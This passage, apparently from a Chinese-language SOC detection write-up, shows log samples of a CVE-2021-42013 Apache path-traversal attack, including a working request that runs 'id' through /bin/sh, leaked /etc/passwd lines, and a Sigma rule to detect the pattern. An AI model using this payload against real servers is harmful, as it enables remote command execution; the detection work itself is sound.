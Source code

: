```http.log
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
```

```http.log
POST /cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/sh HTTP/1.1
Host: 10.211.55.10:8080
User-Agent: curl/7.64.1
Accept: */*
Content-Length: 7
Content-Type: application/x-www-form-urlencoded

echo;idHTTP/1.1 200 OK
Date: Sun, 10 Oct 2021 05:39:11 GMT
Server: Apache/2.4.50 (Unix)
Transfer-Encoding: chunked

2d
uid=1(daemon) gid=1(daemon) groups=1(daemon)

0
```

#### 检测规则

Sigma规则

```yml
title: CVE-2021-42013-Apache HTTP Server 2.4.50路径穿越漏洞
status: 测试状态
description: 基于HTTP日志进行检测
references:
    - https://github.com/vulhub/vulhub/blob/master/httpd/CVE-2021-42013/README.zh-cn.md
detection:
    selection:
        cs-method: 
            - 'GET' #请求方法为GET
            - 'POST' #请求方法为POST
        c-uri: '.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65'
    condition: selection
fields: 
    - c-ip
    - c-dns
falsepositives: 
    - 观察返回状态码是否为200 OK。
level: high
```

## 总结

通过结合上述几种web攻击手法和HTTP协议内容，可以看出有关web方面攻击的分析研判大多根据HTTP请求包和返回包内容进行研判。在设计SOC规则时可根据请求内容中的特征和返回码中的内容进行匹配，告警准确度会高一些，对性能的消耗也会低一些。总之，具体到HTTP协议中的某个字段的某个值最好。当然也可以通过设计编写流量规则进行分析，如suricata。
